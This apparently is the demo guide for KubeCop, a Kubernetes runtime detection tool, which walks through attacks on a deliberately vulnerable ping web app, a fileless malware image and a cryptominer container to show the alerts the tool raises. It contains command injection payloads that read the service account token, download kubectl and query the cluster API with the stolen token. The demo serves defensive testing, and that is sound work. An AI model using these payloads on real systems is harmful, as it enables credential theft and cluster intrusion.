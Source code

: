 # KubeCop Demo
This is a walkthrough of KubeCop, in this demo we will do the following:
1. Install KubeCop.
2. Deploy a sample web application and attack it.
3. Deploy fileless malware.
4. Deploy a container with malicious image that contains malwares.
5. See how KubeCop detects the attacks.

With this demo you will be able to see how KubeCop works and how it can be used to detect and prevent attacks.
To learn more about KubeCop, see [here](../README.md).

## Table of Contents

- [Installation](#installation)
- [Deploy Web Application](#deploy-web-application)
- [Attack Web Application](#attack-web-application)
- [Attack Fileless Malware](#attack-fileless-malware)
- [Attack Malicious Image](#attack-malicious-image)
- [Conclusion](#conclusion)


## Installation
To install KubeCop, you need to have a Kubernetes cluster up and running. In case you want to test it on your local machine you can use [Minikube](https://kubernetes.io/docs/tasks/tools/install-minikube/) or [Kind](https://kind.sigs.k8s.io/docs/user/quick-start/).

After you have a Kubernetes cluster up and running, you can install KubeCop by running the following commands:

```bash
git clone https://github.com/armosec/kubecop.git && cd kubecop
# Assuming AlertManager is running in service  "alertmanager-operated" in namespace "monitoring"
helm install kubecop chart/kubecop -n kubescape --create-namespace
```

You should be getting alerts after the learning period ends. The defult installation comes with a 15 minute learning period counted from the time KubeCop or the container starts.  

Try `kubectl exec` on one of the Pods after the learning period to test out anomaly detection!

### Getting alerts

One of the ways to get alert from KubeCop is to connect it an AlertManager. If you don't have AlertManager running, you can install it by running the following commands:
```bash
helm repo add prometheus-community https://prometheus-community.github.io/helm-charts
helm repo update
helm install alertmanager prometheus-community/kube-prometheus-stack -n monitoring --create-namespace
```

And enable it in KubeCop by running the following commands:
```bash
helm upgrade kubecop chart/kubecop -n kubescape --create-namespace --set kubecop.alertmanager.enabled=true --set kubecop.alertmanager.endpoints=alertmanager-operated.monitoring.svc.cluster.local:9093
```

To learn more about KubeCop installation, see [here](../README.md#basic-installation).
You can also enable other exporters, see [here](../README.md#advanced-parameter-configurations).

### Development install

If you want to use our script to setup a development cluster with KubeCop and AlertManager, run the following commands:
```bash
make build-image
chmod +x scripts/setup-system-test-cluster.sh
./scripts/setup-system-test-cluster.sh
```

**Once you have KubeCop installed, let's deploy a sample web application and attack it.**

## Deploy Web Application

To deploy a sample web application, run the following commands:

```bash
chmod +x demo/general_attack/webapp/setup.sh
./demo/general_attack/webapp/setup.sh
```

This will deploy a sample web application and a service to expose it.
You can access the web application by using a web browser and going to `http://<node-ip>:8080`.
You should see the following page:
![Web Application](assets/webapp.png)

Once you have the web application up and running, let's attack it and see how KubeCop detects the attack.

## Attack Web Application

Our web application is deliberatly made vulnerable to a [command injection](https://owasp.org/www-community/attacks/Command_Injection) attack.
The application is a "Ping service", it allows the user to ping a host, and it will return the output of the ping command.
Let's try to ping `1.1.1.1` and see the output.

![Ping](assets/ping.png)

Behind the scenes, the application is taking the IP from the form as a string and concatenates it to a command. Since there is no proper input sanitization we can use this to run arbitrary commands on the web application container and get the output.

Let's try to execute the `ls` command on the web application container.

```bash
1.1.1.1;ls
```

Great! We can see the output of the `ls` command, but we can also see that KubeCop detected the attack and sent an alert to AlertManager.

![ls](assets/ls.png)

Navigate to AlertManager UI by going to `http://<node-ip>:9093` and you should see the following alert:
(You can also see the alert in the terminal where you ran `helm install`)
![AlertManager](assets/alertmanager.png)

We can see that KubeCop raised two alerts, one for the unexpected command execution and one for the unexpected file activity.
We can see the details of the alerts such as the command that was executed and the file that was accessed and on which workload.

Now, let's try to run a more malicious command, let's try to get the service account token.

```bash
1.1.1.1;cat /run/secrets/kubernetes.io/serviceaccount/token
```

We can see that KubeCop detected the attack and sent an alert to AlertManager.
![service accout token](assets/service-account-token.png)
KubeCop detected the attack because it has a rule that identifies access to the service account token.

Next, let's try to download kubectl into the container and run it to get the pods in the cluster.

Execute the following commands one by one:
```bash
# Get the architecture of the node
1.1.1.1;arch=$(uname -m | sed 's/x86_64/amd64/g' | sed 's/aarch64/arm64/g')

# Download kubectl
1.1.1.1;curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/<node arch>/kubectl"

# Make kubectl executable
1.1.1.1;chmod +x kubectl

# Get the pods in the cluster
1.1.1.1;./kubectl --server https://kubernetes.default --insecure-skip-tls-verify --token $(cat /run/secrets/kubernetes.io/serviceaccount/token) get pods
```

You should see the following output:
![pods](assets/pods.png)

We can see that KubeCop detected the attack and sent an alert to AlertManager.
![kubectl](assets/kubectl.png)

KubeCop detected the attack because it has a rule that identifies kubernetes API server access from a container.

## Attack Fileless Malware
Let's deploy a fileless malware and see how KubeCop detects it.

To deploy the fileless malware, run the following commands:
This will deploy google's [demo-app](https://github.com/GoogleCloudPlatform/microservices-demo)
```bash
kubectl apply -f demo/fileless_exec/kubernetes-manifest.yaml
```
We have replaced one of the original images with a malicious image that runs a fileless malware.
Using the [ezuri crypter](https://github.com/guitmz/ezuri), we have encrypted the malware and embedded it in the image. (Don't worry, it doesn't run a real malicious malware 😉).

Let's see what has popped up in AlertManager.
![fileless malware](assets/fileless-malware.png)

We can see that KubeCop detected that an exec syscall was made from `/proc/self/fd/3` which is the file descriptor of the malware that resides in the container's memory.
This is a fileless malware, so we don't have any files to scan, but KubeCop still detected it.

## Attack Malicious Image
Let's deploy a container with malicious image that contains malwares such as [cryptominer](https://www.crowdstrike.com/blog/what-is-cryptomining/) and [webshell](https://owasp.org/www-community/attacks/Web_Shell).

We are going to be using [ruzickap malwares container](https://github.com/ruzickap/malware-cryptominer-container) to deploy a container with malwares.
To deploy the container, run the following command:
```bash
kubectl run malware-cryptominer --image=quay.io/petr_ruzicka/malware-cryptominer-container:2.0.2
```
Or, alternatively, you can build the image yourself by running the following commands:
```bash
docker build -t malware-cryptominer -f malwares_image/Containerfile .
docker tag malware-cryptominer quay.io/petr_ruzicka/malware-cryptominer-container:2.0.2
# If you are using minikube
minikube image load quay.io/petr_ruzicka/malware-cryptominer-container:2.0.2
# If you are using kind
kind load docker-image quay.io/petr_ruzicka/malware-cryptominer-container:2.0.2
```

Let's see what has popped up in AlertManager.
![malwares](assets/malwares.png)
We can see that KubeCop detected that the container is running a malicious image that contains malwares.
It also supplies the path to the malwares in the node's filesystem as well as the signatures of the malwares.
KubeCop uses [ClamAV](https://www.clamav.net/) to scan the images for malwares.
ClamAV is an open source antivirus engine for detecting trojans, viruses, malware & other malicious threats, it supports a wide range of signature languages including YARA and bytecode signatures.

Please note that KubeCop doesn't scan the images by default, you need to enable it by setting `kubecop.clamav.enabled=true` in the helm chart. See [here](../README.md#clamav-scanning) for more information.


## Conclusion
In this demo we saw how KubeCop can be used to detect and prevent attacks in Kubernetes.
We covered a few attacks, but KubeCop can detect many more attacks, see [here](../pkg/engine/rule/README.md) for the full list of supported rules and detection methods.
To learn more about KubeCop, see [here](../README.md).

If you have any questions, feel free to open an issue or contact us via [email](mailto:support@armosec.io) or [slack](https://cloud-native.slack.com/archives/C04EY3ZF9GE).

